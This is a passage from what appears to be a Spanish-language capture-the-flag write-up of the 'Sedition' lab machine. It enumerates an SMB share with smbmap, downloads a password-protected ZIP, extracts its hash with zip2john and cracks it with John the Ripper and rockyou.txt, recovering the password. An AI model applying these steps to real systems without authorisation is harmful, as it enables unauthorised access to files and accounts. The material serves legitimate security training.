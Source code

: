 ```bash
	./backup
	dr--r--r--                0 Sun Jul  6 11:02:52 2025	.
	dr--r--r--                0 Sun Jul  6 12:15:13 2025	..
	fr--r--r--              216 Sun Jul  6 11:02:31 2025	secretito.zip
	IPC$                                              	NO ACCESS	IPC Service (Samba Server)
	nobody                                            	NO ACCESS	Home Directories
[*] Closed 1 connections
```
Hay un **archivo ZIP**.

Descarguémoslo:
```bash
smbmap -H 192.168.100.100 --download backup/secretito.zip --no-banner
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                      
[+] Starting download: backup\secretito.zip (216 bytes)
[+] File output to: /../TheHackersLabs/Sedition/content/192.168.100.100-backup_secretito.zip
[*] Closed 1 connections

mv 192.168.100.100-backup_secretito.zip secretito.zip
```

Tratemos de descomprimirlo:
```bash
unzip secretito.zip
Archive:  secretito.zip
[secretito.zip] password password:
```
Necesitamos una contraseña, entonces, vamos a crackear este archivo.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="Cracking">Crackeo de Archivo ZIP y Ganando Acceso a Máquina Víctima Vía SSH</h2>

Obtengamos el Hash de ese **archivo ZIP**:
```bash
zip2john secretito.zip > hash
ver 1.0 efh 5455 efh 7875 secretito.zip/password PKZIP Encr: 2b chk, TS_chk, cmplen=34, decmplen=22, crc=F2E5967A ts=969D cs=969d type=0
```

Con **JohnTheRipper**, crackeamos el Hash:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sebastian        (secretito.zip/password)     
1g 0:00:00:00 DONE (2025-09-10 13:55) 16.66g/s 204800p/s 204800c/s 204800C/s 123456..hawkeye
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Tenemos la contraseña.

